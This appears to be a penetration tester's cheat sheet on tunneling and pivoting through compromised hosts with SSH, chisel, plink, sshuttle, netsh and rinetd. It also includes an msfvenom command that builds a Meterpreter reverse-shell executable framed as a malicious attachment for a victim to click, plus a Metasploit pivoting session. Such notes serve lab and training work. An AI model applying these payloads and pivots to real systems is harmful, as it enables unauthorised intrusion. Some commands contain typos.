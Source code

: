 # Tunneling and Port Forwarding

## SSH

### Local Port Forwarding

Scenario: When getting a foothold on a target machine, you find a service running on it that is only listening on the local host, so you want to forward it to the Attack machine so you can access it.

```bash
# From Kali (Attack Machine)
# Syntax
ssh -L <local port>:<localhost>:<target port> -l <target user> <target IP>
# Example (from the Pandora machine on HTB)
ssh -L 8888:127.0.0.1:80 -l daniel 10.129.250.50
```

If we look at our local Kali host `http://127.0.0.1:8080` nothing is currently running there.

Now use SSH to connect to my target server on port 80, but access it on port 8080 locally.

```bash
# From Kali
ssh -f -nNT -L 8080:localhost:80 target_user@target_IP
ssh -f -nNT -L 8080:localhost:80 msfadmin@10.0.2.8
```

Should now be able to navigate to `http://127.0.0.1:8080` and see the target's web page.

We can use `lsof` to kill it: `lsof -i` and kill the PID of the process.

### Remote Port Forwarding

```bash
# From Target
sudo ssh -R 2222:localhost:22 kali@kali_IP
# From Kali
ssh target_IP -p 2222
```

```
Running HTTP through an SSH Tunnel
# From Target
sudo ssh -f -nNT -R 8080:localhost:80 msfadmin@10.0.2.8
# From Kali
# Can now navigate to 10.0.2.8 in a browser. Was not available prior.
```

### Dynamic Port Forwarding

```bash
# From Kali
ssh -f - N -D 9050 kali@intermediate_IP  # Dual homed with second IP of 10.1.1.7
proxychains ssh 10.1.1.5  # Target IP
```

## Chisel

### Socks Proxy

```bash
# From Kali
chisel server -p 8000 --reverse

# From Target - Download necessary platform binary i.e Linux adm64, Windows, etc.
./chisel client 10.50.143.31:8000 R:socks

# And now use proxychains with port 1080 (default)
```

### Port Forwarding

Scenario: When getting a foothold on a target machine, you find a service running on port 8000 that is only listening on the local host, so you want to forward it to the Attack machine (also to port 8000) so you can access it.

```bash
# From kali
chisel server -p 12312 --reverse

# From Target
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:8000:127.0.0.1:8000
```

## Plink

### Example

Pivoting through Windows based operating systems.

Scenario: From compromising a Windows server, we discover a mysqld.exe running on port 3306.

```powershell
# From a Windows System shell
# Transfer Plink.exe to this Windows system
plink.exe -ssh -l kali -pw kali -R <kali-machine:port>:<Windows-system:port> <kali-machine>
plink.exe -ssh -l kali -pw kali -R 100.11.0.4:1234:127.0.0.1:3306 10.11.0.4
# From Kali
sudo nmap -sV 127.0.0.1 -p 1234
```

## sshuttle

### Example

> Will only work if SSH is running and will NOT work on Windows machines

```bash
# From Kali
sshuttle -r USER@MACHINE_IP 0.0.0.0/0
```

## Armitage

### Example

```bash
# Setup Meterpreter revere shell
msfvenom -p windows/meterpreter/reverse_tcp --platform windows --arch x86 -f exe LHOST=<IP> LPORT=<IP> -o winjan.exe
# From Armitage
# Add target host, select payload, windows, meterpreter, reverse_tcp, remove encoding, and update the port
# Now wait for a victim to click the malicious attachment winjan.exe
# Arimtage has detected and exploited it
# Right click on the target to select meterpreter, pivoting, setup, and see additional hosts
# We can now scan the new target(s). Select Hosts, MSFscans, and enter range
```

## Metasploit

### Example

```bash
msf > use exploit/multi/handler
msf > set payload windos/meterpreter/reverse_tcp
msf > set lhsot
msf > set lport
msf > exploit
# Now execute the winjan.exe file from the target like with Armitage
# We now have a meterpreter reverse shell and can check the network configuration
meterpreter > shell
C:\tools>ipconfig
exit
meterpreter > background
msf exploit(multi/handler) > use post/multi/manage/autoroute
msf post(multi/manage/autoroute) > set subnet 10.1.1.0
msf post(multi/manage/autoroute) > set session 1
msf post(multi/manage/autoroute) > exploit
# We can now pivot by scanning one of the new targets
msf auxiliary(scanner/ssh/ssh_version) > set rhosts 10.1.1.5
msf auxiliary(scanner/ssh/ssh_version) > exploit
```



## RINETD

### Example

During an assessment, we gained root access to an Internet-connected Linux web server. From there, we found and compromised a Linux client on an internal network, gaining access to SSH credentials.

```bash
# From Kali
# Test network connectivity
kali@kali:~$ ping google.com -c 1
PING google.com (216.58.207.142) 56(84) bytes of data.

# Test connection to found IP
kali@kali:~$ root@kali:~# nc -nvv 216.58.207.142 80
(UNKNOWN) [216.58.207.142] 80 (http) open
GET / HTTP/1.0
```

```bash
# Access compromised target via SSH
kali@kali:~# ssh student@10.11.0.128

# Test network connectivity -- no internet access
kali@kali:~$ ping google.com -c 1
(UNKNOWN) [216.58.207.142] 80 (http) : No route to host
```

```bash
# Redirect traffic to our Kali linux server using RINETD

ss -antp | grep "80"

# From Compromised target to Kali linux
student@debian:~$ nc -nvv 10.11.0.4 80
(UNKNOWN) [10.11.0.4] 80 (http) open
GET / HTTP/1.0
```

## NETSH

### Example

Scenario: Compromised a Windows target through remote vuln and obtain System privileges. We find an additional network interface. We identify a Windows Server that has port 445 open.

```powershell
# From Windows compromised target
netsh interface portproxy add v4tov4 listenport=<kali port> listenaddress=<kali IP> connectport=<Windows server port> <connectaddress=<Windows server address>
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
# Check for listening
netstat -anp TCP | find "4455"
# With admin permissions we can allo forwarding rule
netsh advfirewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action allow

# From Kali
smbclient -L 10.11.0.22 --port=4455 --user=Administrator
Data
# If an error occurs, we can test interaction
sudo mkdir /mnt/win10_share
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty /mnt/win10_share
ls -l /mnt/win10_share
```

